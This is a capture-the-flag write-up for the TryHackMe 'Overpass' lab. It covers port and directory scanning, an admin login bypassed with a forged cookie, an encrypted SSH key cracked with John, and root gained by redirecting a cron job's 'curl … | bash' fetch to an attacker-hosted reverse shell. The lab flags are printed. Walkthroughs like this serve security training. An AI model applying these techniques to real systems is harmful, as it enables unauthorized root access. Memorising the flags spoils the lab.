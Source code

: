 ###### What happens when some broke CompSci students make a password manager?
Room: https://tryhackme.com/room/overpass
##

**sudo nmap** -sS -sV -T5 -vv xx.xx.xxx.xx

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

**gobuster** dir -u http://xx.xx.xxx.xx --wordlist=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 300
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://xx.xx.xxx.xx
[+] Method:                  GET
[+] Threads:                 300
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/11 15:23:59 Starting gobuster in directory enumeration mode
===============================================================
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/img                  (Status: 301) [Size: 0] [--> img/]      
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  
/admin                (Status: 301) [Size: 42] [--> /admin/] 
```

If we check the **admin** page, we find a login form.  
By inspecting the source code, we see a file called **login.js**  
* **if** the credentials are right, assigns a cookie called SessionToken.  
* **else** returns a error message. 


We can create this cookie manually with a random value.   
Once we refresh the page and connect with random credentials, the access is granted.   
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```

**/usr/share/john/ssh2john.py** encrypted_rsa > rsa
**john** rsa -wordlist=/usr/share/wordlists/rockyou.txt

We can authenticate on SSH as user James.  

ssh -i encrypted_rsa james@xx.xx.xxx.xx

**First flag, content of user.txt** **[1]**
> thm{65c1aaf000506e56996822c6281e6bf7}

We see that **/etc/crontab** runs a **build.sh** script as root.  
```
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

We can replicate that directory on our attacking machine.  
We can create a **buildscript.sh** script with a reverse shell located in a **/downloads/src** folder.  

Then, we can edit the **/etc/hosts** file using **vi /etc/hosts**.  
Replace the current IP with our attacking machine IP for the overpass.thm address.  

```
127.0.0.1 localhost
127.0.1.1 overpass-prod
HERE overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Then, setup a local listener and a local server on your machine.  

**Server terminal**
```
python3 -m http.server  80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
xx.xx.xxx.xx - - [11/Oct/2021 16:23:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```

**Listener terminal**
```
listening on [any] 8844 ...
connect to [xx.x.x.xxx] from (UNKNOWN) [xx.xx.xxx.xx] 39664
bash: cannot set terminal process group (1455): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# 
```

**Second flag, located in /root/root.txt** **[2]**
> thm{7f336f8c359dbac18d54fdd64ea753bb}





